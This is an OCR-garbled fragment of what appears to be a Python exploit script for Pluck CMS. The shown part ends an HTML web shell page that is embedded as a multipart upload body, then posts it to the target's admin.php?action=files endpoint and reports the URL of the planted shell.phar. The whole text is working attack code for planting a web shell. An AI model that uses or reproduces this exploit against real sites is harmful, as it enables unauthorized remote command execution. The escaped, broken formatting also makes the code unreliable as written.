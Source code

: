 \\n

<div id=\"shell-input\">
\\n <label for=\"shell-cmd\" id=\"shell-prompt\" class=\"shell-prompt\">???</label>\\n

<div>
\\n <input id=\"shell-cmd\" name=\"cmd\" onkeydown=\"_onShellCmdKeyDown(event)\"/>\\n

</div>
\\n

</div>
\\n

</div>
\\n

</body>
\\n\\n

</html>
\\n\\r\\n-----------------------------5170699732428994785525662060\\r\\nContent-Disposition: form-data; name=\\"submit\\"\\r\\n\\r\\nUpload\\r\\n-----------------------------5170699732428994785525662060--\\r\\n"

1.  Uploading Webshell:

link_upload = '<http://>' + target_ip + ':' + target_port + pluckcmspath + '/admin.php?action=files' upload = requests.post(link_upload, headers=header, data=data)

''' Finish: *' print('Uploaded Webshell to: <http://>' + target_ip + ':' + target_port + pluckcmspath + '/files/shell.phar') print(*)

</pre>
